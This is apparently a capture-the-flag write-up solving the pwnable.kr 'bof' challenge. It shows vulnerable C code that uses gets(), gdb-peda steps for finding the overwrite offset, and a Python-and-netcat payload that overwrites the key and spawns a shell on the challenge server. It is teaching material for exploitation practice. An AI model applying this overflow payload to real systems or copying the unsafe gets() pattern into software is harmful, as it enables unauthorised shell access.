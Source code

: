 # **bof**
First, we got the source code with .ELF file from the website.

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```


![](https://i.imgur.com/my4Pb5O.png)
![](https://i.imgur.com/nhWAWPJ.png)

Cuz to bufferoverflow type's question, we should install a plugin to gdb, it may help a lot.
`git clone https://github.com/longld/peda.git ~/peda`
`echo "source ~/peda/peda.py" >> ~/.gdbinit`

![](https://i.imgur.com/0qX7YbU.png)

Then, change the .ELF you downloaded from the website by `chmod 777 bof`.(if you are not compiling in x86 system)

Starting trace code with `gdb ./bof`.

First, set a break point by `b main` to stop auto running.


![](https://i.imgur.com/I2W9xvB.png)

Insert `r` to start running the program.

![](https://i.imgur.com/6fiiiVa.png)

Using `n` which means "next" to line by line running this code.

![](https://i.imgur.com/B5qAK9B.png)

Using `s` which means "step" to step into the funtion, if you keep insert `n` then it will bypass this function's detail.

![](https://i.imgur.com/hgSsF18.png)

In this function which call by main, is calling IO.GET on line 35.

Before you step on it, you should create your own offset to determind the location of the overwritable point.

`pattern create 100` may help.
`100` is the value for nobody guess, but we sure that it should bigger than the distance from get point to `key` of `void func(int key)`.

You can also see the compare command just two more lines later. It means `key` are stored in `ebp+0x8`.

Before you overwrite it, the value of `ebp+0x8` must be `0xdeadbeef`.

![](https://i.imgur.com/6R4blpO.png)

After you step on it, it will require you to insert your offset. Just paste to the shell.

![](https://i.imgur.com/E9cZx5P.png)

After you paste your offset into this process, you can check what's storing in `ebp+0x8` now by `telescope $ebp+0x8 1`.

Now, you see `AAGAACAA` is the key offset we overwrite on `0xdeadbeef`.

![](https://i.imgur.com/cHUzfwN.png)

Using `pattern offset AAGA` to find the offset location.

After all, type `q` to exit the gdb.

![](https://i.imgur.com/fcmy8od.png)

Using python to generate the payload and inject it to server.

`(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; car -) | nc pwnable.kr 9000`

Becareful that stack is struct in DESC order, `cafebabe` should turn to be `bebafeca`.

![](https://i.imgur.com/0nGXESp.png)

Then, you'll get a shell return.

![](https://i.imgur.com/1qUJW6E.png)

You can check `id` and then `ls` it.

![](https://i.imgur.com/JUvQZ09.png)

Congratuz! `cat` the flag. Bada bing bada boom.

